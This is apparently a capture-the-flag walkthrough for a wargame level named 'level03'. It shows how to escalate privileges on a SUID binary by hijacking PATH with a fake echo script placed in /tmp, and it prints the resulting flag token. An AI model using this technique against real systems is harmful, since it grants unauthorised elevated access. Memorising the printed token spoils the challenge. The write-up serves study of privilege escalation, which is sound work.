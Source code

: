 ## Level 03: Exploiting the Binary

### Objective
Retrieve the token by exploiting a binary named `level03`.

### Steps

1. **Analyze the Binary:**
   - Execute the binary:
     ```bash
     ./level03
     ```
     Output:  
     ```
     Exploit me
     ```
   - Inspect the binary:  
   The `strings` command extracts printable character strings from a binary file. You can then use `grep` to search for the desired phrase.
     ```bash
     strings level03 | grep "Exploit me"
     ```
     Output:  
     ```
     /usr/bin/env echo Exploit me
     ```

   The binary executes the `echo` command using `/usr/bin/env` without an absolute path. This behavior can be exploited by modifying the `PATH` environment variable.

2. **Understand the Vulnerability:**  
   - The `/usr/bin/env` command searches for the executable `echo` in the directories listed in the `PATH` environment variable.
   - By controlling the `PATH`, you can prioritize a malicious version of the `echo` command.

3. **Exploit the Vulnerability:**  
   - **Create a Malicious Executable:**  
      Create a fake `echo` command that executes `getflag`:
      ```bash
      echo "/bin/getflag" > /tmp/echo
      chmod +x /tmp/echo
      ```
   - **Modify the PATH Variable:**  
      Temporarily prepend `/tmp` to the `PATH`:
      ```bash
      export PATH=/tmp:$PATH
      ```
   - **Execute the Vulnerable Command:**  
      Run the binary:
      ```bash
      ./level03
      ```
      Output:  
      ```
      Here is your token: qi0maab88jeaj46qoumi7maus
      ```

4. **Why This Exploit Works:**
   - The binary `level03` likely has the SUID bit set, allowing it to run with the privileges of its owner (`flag03`).
   - When the modified `PATH` is used, the binary executes `/tmp/echo` (the malicious script) as if it were the real `echo` command.
   - Since `level03` runs with elevated privileges, it successfully executes `getflag` and retrieves the token.

5. **Verify SUID Permissions:**  
   Check if the SUID bit is set on the binary:
   ```bash
   ls -l ./level03
   ```
   Output:
   ```bash
   -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03
   ```
   The `s` in `rws` confirms that the binary runs with the privileges of its owner (in this case, `flag03`).
